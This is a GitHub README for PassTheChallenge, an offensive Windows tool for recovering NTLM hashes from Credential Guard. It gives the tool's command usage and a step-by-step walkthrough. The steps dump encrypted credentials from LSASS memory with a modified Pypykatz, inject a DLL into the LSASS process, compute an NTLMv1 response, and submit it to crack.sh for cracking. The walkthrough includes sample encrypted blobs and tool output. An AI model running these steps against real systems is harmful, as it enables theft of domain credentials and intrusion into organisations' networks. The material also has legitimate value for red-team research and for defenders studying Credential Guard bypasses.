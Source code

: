 # PassTheChallenge

Recovering NTLM hashes from Credential Guard. Read more about the techniques [here](https://research.ifcr.dk/pass-the-challenge-defeating-credential-guard-31a892eee22).

## Usage

Releases can be found [here](https://github.com/ly4k/PassTheChallenge/releases/tag/v1.0).

```
Pass-the-Challenge (PtC) - by Oliver Lyak (ly4k)

Usage: <command> [<parameters...>]

Commands:
    inject - Inject module and start PtC-RPC server inside LSASS
    ping - Ping the PtC-RPC server inside LSASS
    challenge - Calculate NTLMv2 Response using encrypted credentials
      <addresses> - <context handle>:<proxy info>
      <encrypted blob> - <HEX>
      <server challenge> - <UTF16_HEX domain>:<UTF16_HEX username>:<HEX server name>:<HEX server challenge>
    nthash - Calculate NTLMv1 Response using encrypted credentials
      <addresses> - <context handle>:<proxy info>
      <encrypted blob> - <HEX>
      [<server challenge>] - If omitted, a static challenge of 1122334455667788 will be used
    protect - Convert NT hash to encrypted blob
      <addresses> - <context handle>:<proxy info>
      <nt hash> - <HEX>
    compare - Compare two encrypted blobs or an encrypted blob with a NT hash
      <addresses> - <context handle>:<proxy info>
      <encrypted blob> - <HEX>
      <encrypted blob/NT hash> - <HEX>

Examples:
    PtC.exe inject [<module>]
    PtC.exe ping
    PtC.exe challenge 0x1a34b[...]:0x7fff7[...] 0a92a82feb4[...] 6c0079[...]:610064[...]:020008[...]:66a98b[...]
    PtC.exe nthash 0x1a34b[...]:0x7fff7[...] 0a92a82feb4[...]
    PtC.exe protect 0x1a34b[...]:0x7fff7[...] 0a92a82feb4[...]
    PtC.exe compare 0x1a34b[...]:0x7fff7[...] 0a92a82feb4[...] 66a98b[...]
```

### Examples

First, use the modified version of [Pypykatz](https://github.com/ly4k/Pypykatz) to extract the encrypted credentials, along with the "Context Handle" and "Proxy Info" from an LSASS memory dump.

```cmd
> python3 -m pypykatz lsa minidump lsass.DMP -p msv
[...]
luid 194748
        == MSV ==
                Username: Administrator
                Domain: corp
                        [LSA Isolated Data]
                        Is NT Present: True
                        Context Handle: 0x1b6d5216c60
                        Proxy Info: 0x7ffdd8bfd380
                        Encrypted blob: a0000000000000000800000064000000010000000101000001000000366f55058c45738be16ab11f1d78586f2649f0c348b3171496cd7ef39dd4f3bb3dfda4ea33fb46d407887a570b1d545d0100000000000000000000000000000001000000340000004e746c6d48617368256a784d729f032326c6f16b07ebbd279dab88912c12e9b7f8b16e3a5ccdce5f70b65eef248cf38faf856a9793cba54c7f8bf4ef
                DPAPI: c02c86e371103ad7d7d352b19af1a74a00000000
[...]
```

Then inject the [SecurityPackage.dll](https://github.com/ly4k/PassTheChallenge/releases/tag/v1.0) module into the LSASS process. Make sure that `SecurityPackage.dll` is located in your current working directory, or specify an alternative path as the first parameter.

```cmd
> .\PassTheChallenge.exe inject <[path to module]>
Pass-the-Challenge (PtC) - by Oliver Lyak (ly4k)

[+] Package seems to be loaded
```

The easy way to retrieve the NTLM hash is by using the `nthash` command, as shown below using the values from the Pypykatz dump.

```cmd
> .\PassTheChallenge.exe nthash 0x1b6d5216c60:0x7ffdd8bfd380 a0000000000000000800000064000000010000000101000001000000366f55058c45738be16ab11f1d78586f2649f0c348b3171496cd7ef39dd4f3bb3dfda4ea33fb46d407887a570b1d545d0100000000000000000000000000000001000000340000004e746c6d48617368256a784d729f032326c6f16b07ebbd279dab88912c12e9b7f8b16e3a5ccdce5f70b65eef248cf38faf856a9793cba54c7f8bf4ef
Pass-the-Challenge (PtC) - by Oliver Lyak (ly4k)

[+] Server is alive
[+] Response:

NTHASH:0F2FBBD336C44CB24E5189483F77378135F02C79D225B1AC
```

Finally, submit the NTHASH for free to [crack.sh](https://crack.sh/get-cracking/) and wait around 30 seconds for your NTLM hash to be recovered.

See the blog post for more [details](https://research.ifcr.dk/pass-the-challenge-defeating-credential-guard-31a892eee22).

